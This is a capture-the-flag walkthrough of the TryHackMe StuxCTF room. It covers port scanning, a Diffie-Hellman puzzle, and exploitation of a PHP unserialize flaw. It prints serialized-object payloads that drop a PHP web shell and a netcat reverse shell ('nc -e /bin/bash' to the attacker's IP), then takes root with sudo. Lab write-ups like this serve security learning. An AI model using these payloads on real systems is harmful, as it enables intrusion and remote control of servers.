








StuxCTF, a machine with crypto, serealization, privilege escalation and more ...!

This [room](https://tryhackme.com/room/stuxctf) is free, and follows the CTF jeopardy style with two flags, `user.txt` and `root.txt`.

## Reconnaissance
As always, start with a network scan of the machine, see what can be found!

```
$ nmap -sC -sV <ip-address>         
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-04 02:09 EST
Nmap scan report for 10.10.222.180
Host is up (0.035s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e8:da:b7:0d:a7:a1:cc:8e:ac:4b:19:6d:25:2b:3e:77 (RSA)
|   256 c1:0c:5a:db:6c:d6:a3:15:96:85:21:e9:48:65:28:42 (ECDSA)
|_  256 0f:1a:6a:d1:bb:cb:a6:3e:bd:8f:99:8d:da:2f:30:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/StuxCTF/
|_http-title: Default Page
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.81 seconds
```

## Directory Discovery

The first thing that sparks curiosity is that "disallowed entry" in the `robots.txt` file. Time to explore port 80.


It looks like the page is "blank", but do we really trust the author?! Time to check the source, see if there is something hidden.

There is a mention of a secret directory, and a handful of variables... I wonder what that is.



Okay, let's check the `/robots.txt` file, see if there is a clue somewhere.

```
# robots.txt generated by StuxCTF
# Diffie-Hellman
User-agent: *
Disallow: 
Disallow: /StuxCTF/
```

Okay, let's take a look at the Deffie-Hellman secret directory. How does it actually work?

The hint from the room is a good idea to take a look at.



Some pages to peek at:
* [What it is and how does it work?](https://www.comparitech.com/blog/information-security/diffie-hellman-key-exchange/)
* [Deffie-Hellman with more than 2 keys!](https://en.wikipedia.org/wiki/Diffie%E2%80%93Hellman_key_exchange#Operation_with_more_than_two_parties)

I'm not that much of a fan of Wikipedia, but sometimes it does help understanding certain terms... The basics with what we find in different pages.

Algorithm parameters are `p` and `g`.

Private keys are `a`, `b`, and `c`. 

There are two keys given, `a` and `b` but `c` is already computed - `g^c` is a public key. However, we need the shared public key. This would resolve into computing all the private keys knowing the public key `g^c mod p`.

Now everything is about computing both `a` and `b` from `g^c mod p`. Adding `a` would look like `(g^c)^a) mod p` and also adding `b` would resolve to `(((g^c)^a)^b) mod p`.

How can this be solved?

Python, of course, is a really good option here!

Given the parameters we have, simply:

```
p=997529866193008508601970840287040219111417174
g=7
a=330
b=450
g^c=609191780083359874153092408176222547741827701

gca=(gc**a)%p
gcab=(gca**b)%p
```

Remembering the hint, print the first 128 characters to get the hidden directory. 

Again, take a look at the source code...



Trying to find files could be related to LFI, however, what if we try checking the most basic page first?



So there is this really long string of numbers, what can it actually be? Going for hex, changes the string into something starting with `==gC+8CIyJGP+wWb0h2L8ogPvAicixjP5R2bi9CPg`, which could definitely be base64 but looks like we have to reverse it first.

Decoding the text shows...

```
<br />
error_reporting(0);<br />
class file {<br />
        public $file = "dump.txt";<br />
        public $data = "dump test";<br />
        function __destruct(){<br />
                file_put_contents($this->file, $this->data);<br />
        }<br />
}<br />
<br />
<br />
$file_name = $_GET['file'];<br />
if(isset($file_name) && !file_exists($file_name)){<br />
        echo "File no Exist!";<br />
}<br />
<br />
if($file_name=="index.php"){<br />
        $content = file_get_contents($file_name);<br />
        $tags = array("", "");<br />
        echo bin2hex(strrev(base64_encode(nl2br(str_replace($tags, "", $content)))));<br />
}<br />
unserialize(file_get_contents($file_name));<br />
<br />
<!DOCTYPE html><br />
    <head><br />
        <title>StuxCTF</title><br />
	<meta charset="UTF-8"><br />
        <meta name="viewport" content="width=device-width, initial-scale=1"><br />
        <link rel="stylesheet" href="assets/css/bootstrap.min.css" /><br />
        <link rel="stylesheet" href="assets/css/style.css" /><br />
    </head><br />
        <body><br />
        <nav class="navbar navbar-default navbar-fixed-top"><br />
          <div class="container"><br />
            <div class="navbar-header"><br />
              <button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar"><br />
                <span class="sr-only">Toggle navigation</span><br />
              </button><br />
              <a class="navbar-brand" href="index.php">Home</a><br />
            </div><br />
          </div><br />
        </nav><br />
        <!-- hint: /?file= --><br />
        <div class="container"><br />
            <div class="jumbotron"><br />
				<center><br />
					<h1>Follow the white rabbit..</h1><br />
				</center><br />
            </div><br />
        </div>            <br />
        <script src="assets/js/jquery-1.11.3.min.js"></script><br />
        <script src="assets/js/bootstrap.min.js"></script><br />
    </body><br />
</html><br />
```

Looks like the PHP code is using the function `unserialize`... Is there a way to exploit this?

## Compromise the machine

Ah! Searching a bit found [this](https://notsosecure.com/remote-code-execution-php-unserialize), which has nearly the same exact code as shown just up ahead and offers a nice explanation.

So, it looks like that, to exploit this we need to:
1. Write serialized object in php
2. Direct the php into a simpler file
3. Open the file in the remote machine

Ideally, the first step will allow us to create a reverse shell that will then be saved as a text file (step 2) and hopefully, with our local python server, download the file into the remote machine - step 3.

Looking around for an example of the exploit, I found [this](https://www.bootlesshacker.com/php-deserialization/) showing some steps. What we want is:

```
<?php

class timeUpdate {
	public $currentTime = '<?php system($_GET["cmd"]); ?>';
	public $outputFile = 'shell.php';

}

echo urlencode(serialize(new timeUpdate));

?>
```
Changing it to: 

```
<?php

class file {
	public $data = '<?php system($_GET["cmd"]); ?>';
	public $file = 'shell.php';

}

echo serialize(new file);

?>
```
Now all that is left is change the `$data` to use the `shell_exec` [function](https://www.php.net/manual/en/function.shell-exec.php)!

```
<?php

class file {
	public $data = '<?php shell_exec("nc -e /bin/bash <ip-address> 4444"); ?>';
	public $file = 'shell.php';

}

echo serialize(new file);

?>
```

Now it's time for step 2: Direct the php into a simpler file - simply get a txt file with the content!

Hint: `php shell.php > shell.txt`

Onto step 3!

Open the file in the remote machine. 

First start a python HTTP server in the same directory that holds the file.

`python -m http.server`

Get the file from the local machine into the remote by accessing `/?file=<ip-address>:<port>/shell.txt` and set up a listener with `nc -lnvp 4444`.

Now that the remote machine has the file, try getting the `shell.php` file that is now on the remote machine.



Upgrade the shell. If you need some help, [this](https://null-byte.wonderhowto.com/how-to/upgrade-dumb-shell-fully-interactive-shell-for-more-flexibility-0197224/) explains it quite nicely.

From here, explore the home directory and get the `user.txt` flag.



## Privilege escalation

Now, let's find a way to escalate our privileges by checking `sudo -l`.



Looks like there is no need to escalate!

Simply running `sudo` will do.

I wonder, can we actually escalate privileges?


